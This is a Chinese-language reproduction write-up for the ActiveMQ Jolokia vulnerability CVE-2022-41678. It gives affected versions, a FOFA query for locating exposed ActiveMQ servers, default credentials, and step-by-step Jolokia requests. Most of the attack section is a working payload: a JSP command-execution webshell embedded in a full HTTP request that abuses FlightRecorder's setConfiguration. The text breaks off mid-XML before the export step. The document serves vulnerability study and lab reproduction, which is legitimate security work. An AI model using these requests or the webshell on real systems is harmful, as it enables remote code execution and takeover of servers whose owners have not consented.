# ActiveMQ Jolokia 代码执行漏洞

## 漏洞编号

```
CVE-2022-41678
```


## 漏洞描述

ActiveMQ是一个开源的消息代理和集成模式服务器，它支持Java消息服务（JMS）API。

它是Apache Softwware Foundation下的一个项目，用于实现消息中间件，帮助不同的应用程序或系统之间进行通信

ActiveMQ后台存在Jolokia代码执行漏洞，在ActiveMQ中，经过身份验证的远程攻击者可通过/api/jolokia/接口操作MBean，其中FlightRecorder可以被用于写Jsp WebShell，从而导致远程代码执行


主要问题处在FlightRecorder这个Mbean，功能时记录内存，gc，调用栈等，漏洞用到的方法注意是以下几个

- newRecording
  - 新建记录
- setConfiguration
  - 更改配置
- startRecording
  - 开始事件记录
- stopRecording
  - 结束事件记录
- copyTo
  - 导出录制文件


## 利用过程

漏洞思路是通过setConfiguration修改配置文件，在配置文件中的键名插入WebShell，由于导出的数据会包含键名，所以当我们在键名中插入WebShell时，导出的数据也会包含WebShell

调用copyTo方法，将记录的数据保存到指定文件，这里我们可与指定为一个web应用目录下的一个jsp文件

这样即实现了写入一个包含恶意命令执行代码的webshell文件

代码位置在jdk.management,jfr.FlightRecorderMXBeanlmpl#setConfiguration

- 登录ActiveMQ后台：首先要凭借有效的登录验证凭据登录到ActiveMQ的后台
- 构造恶意HTTP请求：攻击者构造一个恶意代码的HTTP请求，该请求将利用FlightRecorderMBean中的方法来写入恶意文件
  - 具体来说就是，攻击者通过setConfiguration方法修改配置，将一些键名改为JSP代码，这样记录的数据中就会包含攻击者注入的JSP代码
- 发送恶意HTTP请求：将构造好的恶意HTTP请求发送到ActiveMQ服务器的/api/jolokia/接口
- 写入恶意文件：当ActiveMQ服务器接收到这个恶意HTTP请求并处理时，会触发漏洞，导致恶意代码被写入到ActiveMQ的web目录中
- 执行远程代码：通过访问包含恶意代码的JSP文件来执行远程代码，从而完全控制目标系统


## 影响版本

Apache ActiveMQ < 5.16.6

5.17.0 < Apache ActiveMQ < 5.17.4


## FOFA语法

```
app="APACHE-ActiveMQ"&&port="8161"&&status_code="200"&&country="CN"
```


## ActiveMQ指纹信息

```
端口：
	8161
服务器：
	jetty
banner：
	server:activemq
	magic:activemq
	realm="activemqrealm"
头部：
	realm="activemqrealm"
```


## 环境搭建

vulhub搭建

```
docker-compose up -d
```



成功后访问192.168.1.15:8161



其后台界面在/admin

默认账号密码为admin：admin






## 漏洞复现

### 方法一

ActiveMQ 中，经过身份验证的用户默认情况下可以通过 `/api/jolokia/`接口操作 MBean，其中FlightRecorder可以被用于写Jsp WebShell，从而造成程代码执行漏洞


主要问题出在FlightRecorder这个Mbean

漏洞思路是通过setConfiguration修改配置，录制完成后，通过copyTo导出到web目录即可。


第一步访问

```
/api/jolokia/list
```

但是直接发送数据包时，会报错

```
"error":"java.lang.Exception : Origin null is not allowed to call this agent"
```




需要我们补充数据包，添加Origin

```
Origin:192.168.1.15:8161
```



查看返回包中是否存在FlightRecorder，如果存在则进行下一步


进行新增记录newRecording，获取value值

修改请求为POST

添加请求体

```
{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```



记录返回包中value的值

这里为1


调用setConfiguration构造包含WebShell的配置文件

```
{"type": "exec", "mbean": "jdk.management.jfr:type=FlightRecorder", "operation": "setConfiguration", "arguments": [1,"xml" ]
```

其中1对应value的值，xml对应poc中record_template值，同时修改这一部分，替换为jsp的webshell




特殊字符需要进行html实体编码

```
(<% Process p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));
out.println(org.apache.commons.io.IOUtils.toString(p.getInputStream(), \"utf-8\")); %>)
```




完整数据包

```
POST /api/jolokia/list HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Origin:192.168.1.15:8161
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 32372

{"type": "exec", "mbean": "jdk.management.jfr:type=FlightRecorder", "operation": "setConfiguration", "arguments": [1,"<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<configuration version=\"2.0\" label=\"Continuous\" description=\"Low overhead configuration safe for continuous use in production environments, typically less than 1 % overhead.\" provider=\"Oracle\">
    <event name=\"jdk.ThreadAllocationStatistics\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\"><![CDATA[||| (<% Process p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));
out.println(org.apache.commons.io.IOUtils.toString(p.getInputStream(), \"utf-8\")); %>) |||]]></setting>
    </event>
    <event name=\"jdk.ClassLoadingStatistics\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">1000 ms</setting>
    </event>
    <event name=\"jdk.ClassLoaderStatistics\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.JavaThreadStatistics\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">1000 ms</setting>
    </event>
    <event name=\"jdk.ThreadStart\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.ThreadEnd\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.ThreadSleep\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"synchronization-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.ThreadPark\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"synchronization-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.JavaMonitorEnter\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"synchronization-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.JavaMonitorWait\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"synchronization-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.JavaMonitorInflate\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\" control=\"synchronization-threshold\">20 ms</setting>
    </event>
    <event name=\"jdk.BiasedLockRevocation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.BiasedLockSelfRevocation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.BiasedLockClassRevocation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.ReservedStackActivation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.ClassLoad\">
      <setting name=\"enabled\" control=\"class-loading-enabled\">false</setting>
      <setting name=\"stackTrace\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.ClassDefine\">
      <setting name=\"enabled\" control=\"class-loading-enabled\">false</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.ClassUnload\">
      <setting name=\"enabled\" control=\"class-loading-enabled\">false</setting>
    </event>
    <event name=\"jdk.JVMInformation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.InitialSystemProperty\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.ExecutionSample\">
      <setting name=\"enabled\" control=\"method-sampling-enabled\">true</setting>
      <setting name=\"period\" control=\"method-sampling-java-interval\">20 ms</setting>
    </event>
    <event name=\"jdk.NativeMethodSample\">
      <setting name=\"enabled\" control=\"method-sampling-enabled\">true</setting>
      <setting name=\"period\" control=\"method-sampling-native-interval\">20 ms</setting>
    </event>
    <event name=\"jdk.SafepointBegin\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.SafepointStateSynchronization\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.SafepointWaitBlocked\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.SafepointCleanup\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.SafepointCleanupTask\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.SafepointEnd\">
      <setting name=\"enabled\">false</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.ExecuteVMOperation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"threshold\">10 ms</setting>
    </event>
    <event name=\"jdk.Shutdown\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.ThreadDump\">
      <setting name=\"enabled\" control=\"thread-dump-enabled\">true</setting>
      <setting name=\"period\" control=\"thread-dump-interval\">everyChunk</setting>
    </event>
    <event name=\"jdk.IntFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.UnsignedIntFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.LongFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.UnsignedLongFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.DoubleFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.BooleanFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.StringFlag\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.IntFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.UnsignedIntFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.LongFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.UnsignedLongFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.DoubleFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.BooleanFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.StringFlagChanged\">
      <setting name=\"enabled\">true</setting>
    </event>
    <event name=\"jdk.ObjectCount\">
      <setting name=\"enabled\" control=\"memory-profiling-enabled-all\">false</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.GCConfiguration\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.GCHeapConfiguration\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.YoungGenerationConfiguration\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.GCTLABConfiguration\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.GCSurvivorConfiguration\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.ObjectCountAfterGC\">
      <setting name=\"enabled\">false</setting>
    </event>
    <event name=\"jdk.GCHeapSummary\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.PSHeapSummary\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1HeapSummary\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.MetaspaceSummary\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.MetaspaceGCThreshold\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.MetaspaceAllocationFailure\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.MetaspaceOOM\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.MetaspaceChunkFreeListSummary\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.GarbageCollection\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.ParallelOldGarbageCollection\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.YoungGarbageCollection\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.OldGarbageCollection\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.G1GarbageCollection\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCPhasePause\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCPhasePauseLevel1\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCPhasePauseLevel2\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCPhasePauseLevel3\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCPhasePauseLevel4\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCPhaseConcurrent\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">true</setting>
      <setting name=\"threshold\">0 ms</setting>
    </event>
    <event name=\"jdk.GCReferenceStatistics\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.PromotionFailed\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.EvacuationFailed\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.EvacuationInformation\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1MMU\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1EvacuationYoungStatistics\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1EvacuationOldStatistics\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1BasicIHOP\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1AdaptiveIHOP\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.PromoteObjectInNewPLAB\">
      <setting name=\"enabled\" control=\"memory-profiling-enabled-medium\">false</setting>
    </event>
    <event name=\"jdk.PromoteObjectOutsidePLAB\">
      <setting name=\"enabled\" control=\"memory-profiling-enabled-medium\">false</setting>
    </event>
    <event name=\"jdk.ConcurrentModeFailure\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.AllocationRequiringGC\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
      <setting name=\"stackTrace\">true</setting>
    </event>
    <event name=\"jdk.TenuringDistribution\">
      <setting name=\"enabled\" control=\"gc-enabled-normal\">true</setting>
    </event>
    <event name=\"jdk.G1HeapRegionInformation\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.G1HeapRegionTypeChange\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
    </event>
    <event name=\"jdk.ShenandoahHeapRegionInformation\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.ShenandoahHeapRegionStateChange\">
      <setting name=\"enabled\" control=\"gc-enabled-all\">false</setting>
    </event>
    <event name=\"jdk.OldObjectSample\">
      <setting name=\"enabled\" control=\"memory-leak-detection-enabled\">true</setting>
      <setting name=\"stackTrace\" control=\"memory-leak-detection-stack-trace\">false</setting>
      <setting name=\"cutoff\" control=\"memory-leak-detection-cutoff\">0 ns</setting>
    </event>
    <event name=\"jdk.CompilerConfiguration\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.CompilerStatistics\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">1000 ms</setting>
    </event>
    <event name=\"jdk.Compilation\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"threshold\" control=\"compiler-compilation-threshold\">1000 ms</setting>
    </event>
    <event name=\"jdk.CompilerPhase\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"threshold\" control=\"compiler-phase-threshold\">60 s</setting>
    </event>
    <event name=\"jdk.CompilationFailure\">
      <setting name=\"enabled\" control=\"compiler-enabled-failure\">false</setting>
    </event>
    <event name=\"jdk.CompilerInlining\">
      <setting name=\"enabled\" control=\"compiler-enabled-failure\">false</setting>
    </event>
    <event name=\"jdk.CodeSweeperConfiguration\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.CodeSweeperStatistics\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.SweepCodeCache\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"threshold\" control=\"compiler-sweeper-threshold\">100 ms</setting>
    </event>
    <event name=\"jdk.CodeCacheConfiguration\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.CodeCacheStatistics\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">everyChunk</setting>
    </event>
    <event name=\"jdk.CodeCacheFull\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
    </event>
    <event name=\"jdk.OSInformation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.VirtualizationInformation\">
     <setting name=\"enabled\">true</setting>
     <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.CPUInformation\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.ThreadContextSwitchRate\">
      <setting name=\"enabled\" control=\"compiler-enabled\">true</setting>
      <setting name=\"period\">10 s</setting>
    </event>
    <event name=\"jdk.CPULoad\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">1000 ms</setting>
    </event>
    <event name=\"jdk.ThreadCPULoad\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">10 s</setting>
    </event>
    <event name=\"jdk.CPUTimeStampCounter\">
      <setting name=\"enabled\">true</setting>
      <setting name=\"period\">beginChunk</setting>
    </event>
    <event name=\"jdk.SystemProcess\">
      <setting name=\"enabled\">true</setting>
